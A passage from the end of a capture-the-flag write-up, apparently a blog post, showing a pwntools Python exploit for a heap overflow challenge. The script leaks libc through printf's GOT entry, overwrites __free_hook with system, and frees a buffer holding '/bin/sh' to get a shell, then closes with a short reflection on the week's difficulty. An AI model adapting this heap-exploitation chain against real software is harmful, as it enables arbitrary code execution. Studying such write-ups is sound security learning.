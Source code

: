 ```python
# write the got address into the function
# while keeping the print function's address constant
# Since node 3 is destroyed, we overflow into node 2
setQuestion(1, b'B'*28 + p32(0x21) + p32(print_func) + 5 * p32(0) + p32(printf_got))

# leak libc from the got
askQuestion(2)
printf_libc = u32(p.recvn(4))

# Calculate offsets
system_libc = printf_libc - 0x140d0
free_hook = printf_libc + 0x188600

# Taking full advantage of the overflow, leak the address of the free hook
# While I'm at it, I'll also fix the heap so I can use vis_heap_chunks again
setQuestion(1, b'C'*28 + p32(0x21) + p32(print_func)
            + 5 * p32(0) + p32(free_hook)
            + p32(0x21) + 7*p32(0) + p32(0x21))

# Write the address of system to the free_hook's address
setQuestion(2, p32(system_libc))

# Set buffer of unused node to /bin/sh
setQuestion(0, '/bin/sh\x00')

# Free the node, but actually call system with its buffer /bin/sh
delete(0)

p.interactive()
```

## Conclusion

---

All in all, this week was very challenging. Idk what the title is about but I don't remember any binary to be _'ezpz'_

